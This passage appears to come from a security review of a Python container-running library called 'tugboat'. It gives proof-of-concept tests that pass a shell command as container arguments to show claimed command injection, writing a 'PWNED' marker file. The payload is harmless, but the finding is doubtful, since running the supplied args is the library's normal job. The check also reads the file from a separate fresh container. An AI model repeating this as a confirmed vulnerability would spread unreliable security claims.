         # Check if '/tmp/pwned' exists on the HOST system (this might need adjustments based on actual exploit scenario and container isolation)
        host_pwned_file = pathlib.Path("/tmp/pwned")
        assert host_pwned_file.exists() # Vulnerability is present if file is created (adjust check based on actual exploit)
        host_pwned_file.unlink() # Cleanup

    anyio.run(test_command_injection_image_name)
    ```

    **More Robust Test Case (Command Injection in `args` - safer and more reliable for demonstration within container context):**

    ```python
    import tugboat
    import anyio
    import pathlib

    async def test_command_injection_args():
        malicious_args = ["sh", "-c", "echo 'PWNED' > /tmp/container_pwned.txt"] # Malicious args to execute command inside container

        spec = tugboat.ContainerSpec(
            image="ubuntu:latest",
            args=malicious_args, # Malicious args from user input
            stdout=tugboat.PIPE,
            stderr=tugboat.PIPE,
        )

        result = await tugboat.run(spec)
        assert result.returncode == 0

        exec_spec = tugboat.ExecSpec(["cat", "/tmp/container_pwned.txt"]).set_stdout(tugboat.PIPE)
        verify_result = await tugboat.run(tugboat.ContainerSpec("ubuntu:latest").run_indefinitely()) # Start a container to exec in

        container_pwned_check = await verify_result.container.exec(exec_spec)
        assert "PWNED" in container_pwned_check.stdout # Vulnerability is present if 'PWNED' file is created inside container

    anyio.run(test_command_injection_args)
    ```
    This test case demonstrates command injection through the `args` parameter, which is more directly exploitable and easier to verify within the container environment. An attacker could leverage this to execute arbitrary commands inside the Docker container.